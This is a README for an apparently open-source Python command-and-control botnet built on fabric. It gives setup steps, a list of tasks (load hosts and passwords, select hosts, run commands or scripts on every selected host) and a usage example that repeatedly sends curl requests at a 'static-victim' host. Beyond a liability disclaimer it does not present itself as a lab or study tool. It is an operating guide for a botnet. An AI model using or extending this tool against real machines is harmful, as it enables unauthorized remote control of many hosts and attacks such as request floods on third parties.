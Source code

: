 # CnC-Botnet-in-Python
C&#38;C Botnet written in Python

## Description
Simple botnet written in Python using fabric. 
<p>
The author is not responsible for the use of this code.

## Set up
- Create a python env and install requirements
```sh
python3 -m venv botnet-env
source botnet-env/bin/activate
pip install -r requirements.txt
```
- To run the script, create a `hosts.txt` by copying the `hosts.txt.sample`
```sh
cp hosts.txt.sample hosts.txt
# Then modify...
```
- Write out the hosts you want to run the C&C botnet.

## Running the botnet

- Listing all the commands
```sh
fab -l
# Which shows this:
Available tasks:

  add-host         Add a new host to the state.
  execute-script   Execute a script file on all selected hosts.
  list-hosts       List all loaded hosts.
  load-hosts       Load hosts and passwords into state from hosts.txt.
  run-command      Run a command on all selected hosts.
  select-hosts     Select specific hosts to execute commands.
```
- Use `load-hosts` to load hosts from `hosts.txt` to `hosts_state.json`

- Use `select-hosts` to select specific hosts to run commands or scripts.

- Use `add-hosts` to add a new host directly.
```sh
fab add-host --host "username@host" --password "password"
```

- The current selected hosts are saved to `hosts_state.json`.

- Use `run-command` to execute a command on the hosts in `hosts_state.json`
```sh
# Example
fab run-command --command "curl http://static-victim:8081" --repetitions 2 --interval 1
```
Parameters:
- **command**: The command to execute.
- **repetitions**: Number of times to repeat the command (default: 1).
- **interval**: Delay (in seconds) between repetitions (default: 1).

## Docker
```sh
# Building the container
docker build -t fab-botnet .   
# Running the container
# Connecting the container to the network
docker run -d --name fab-botnet --network chn-network fab-botnet
```

## Other
Newer cryptography libraries may require `rust` depending on the system.
